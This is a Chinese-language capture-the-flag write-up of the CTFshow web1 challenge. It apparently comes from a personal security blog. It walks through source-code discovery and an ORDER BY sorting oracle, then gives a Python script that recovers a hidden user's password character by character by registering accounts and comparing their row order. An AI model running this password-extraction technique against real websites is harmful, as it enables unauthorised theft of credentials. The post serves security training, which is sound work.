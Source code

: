 ```yaml
---
title: CTFshow web1
swiper_index: 5
categories:
    -网络安全
tags:
  - php
  - 代码审计
  - ctfshow
abbrlink: 22275
date: 2022-12-04 22:30:00
updated: 2022-12-04 22:30:00
---
```


# 日刷 - CTFshow web1
打开首页
![code](https://bugcarrot-blog.oss-cn-beijing.aliyuncs.com/articles/cfsweb1-1.png)

既然能注册那就注册一个试试
![code](https://bugcarrot-blog.oss-cn-beijing.aliyuncs.com/articles/cfsweb1-2.png)

登陆后看到提示，flag藏在flag用户的密码中，把order=id修改成order=nickname，排序发生变化，猜测使用数据库使用order by进行排序，可能是个突破口
![code](https://bugcarrot-blog.oss-cn-beijing.aliyuncs.com/articles/cfsweb1-3.png)

burp抓个包看看，没发现什么可疑的参数，回到首页尝试注入看看，输入union发现错误提示
![code](https://bugcarrot-blog.oss-cn-beijing.aliyuncs.com/articles/cfsweb1-4.png)

fuzz测试，能用的基本都过滤了，不管怎么测都只是响应error，思绪回到开头，F12无果，尝试着目录扫描，找到疑似源码的文件，下载来看看
![code](https://bugcarrot-blog.oss-cn-beijing.aliyuncs.com/articles/cfsweb1-5.png)
![code](https://bugcarrot-blog.oss-cn-beijing.aliyuncs.com/articles/cfsweb1-6.png)

代码审计，貌似没有注入的可能，查看信息显示页面，这里数据库能把所有的字段进行order by排序
![code](https://bugcarrot-blog.oss-cn-beijing.aliyuncs.com/articles/cfsweb1-7.png)
![code](https://bugcarrot-blog.oss-cn-beijing.aliyuncs.com/articles/cfsweb1-8.png)

这里可以利用?order=pwd判断我们的密码与flag用户的密码大小，当按照pwd排序时，比如flag用户密码为flag{123},注册密码为e时，出现在上面，注册密码为g时，出现在下面，这样就能判断第一个密码为f，以此累加，有点像bool注入
![code](https://bugcarrot-blog.oss-cn-beijing.aliyuncs.com/articles/cfsweb1-9.png)
![code](https://bugcarrot-blog.oss-cn-beijing.aliyuncs.com/articles/cfsweb1-10.png)



```
# 借鉴大佬的脚本试着写了下
import requests

url = "http://581f799b-2e2a-4e97-9cc2-2d73a8fc9b61.challenge.ctf.show/"
url1 = url + "/reg.php"  # 注册页面
url2 = url + "/login.php"  # 登录界面
url3 = url + "/user_main.php?order=pwd"  # 查询界面
s = requests.session()

flag = "ctfshow{"
str_list = "-.0123456789:abcdefghijklmnopqrstuvwxyz{|}~"  #

for i in range(0, 45):
    print("----------")
    for j in str_list:

        test_pwd = ""
        test_pwd = flag + j
        real_pwd = flag + chr(ord(j) - 1)
        data = {'username': test_pwd,
                'email': 'c',
                'nickname': 'c',
                'password': test_pwd
                }

        # 因为存在flag用户所以当我们注册的用户名为flag，密码为flag时，可以注册成功，但是无法用我们注册的密码登录。所以中间加了个判断
        if (test_pwd == 'flag'):
            flag = 'flag'
            print(flag)
            break

        r1 = s.post(url1, data)
        r2 = s.post(url2, data)
        r3 = s.get(url3)
        t = r3.text

        if (t.index("<td>" + test_pwd + "</td>") > t.index("<td>flag@ctf.show</td>")):
            flag = real_pwd
            print(flag)
            break

```
{% tip warning faa-horizontal animated-hover %}如果最初的flag=''的话，爆破到ctfsho的时候就会出问题，因为or被过滤了{% endtip %}
![code](https://bugcarrot-blog.oss-cn-beijing.aliyuncs.com/articles/cfsweb1-11.png)

{% tip success faa-horizontal animated-hover %}这里因为已经提前知道了flag的结构为ctfshow{}，flag='ctfshow{' 就好了，成功拿到{% endtip %}
![code](https://bugcarrot-blog.oss-cn-beijing.aliyuncs.com/articles/cfsweb1-12.png)

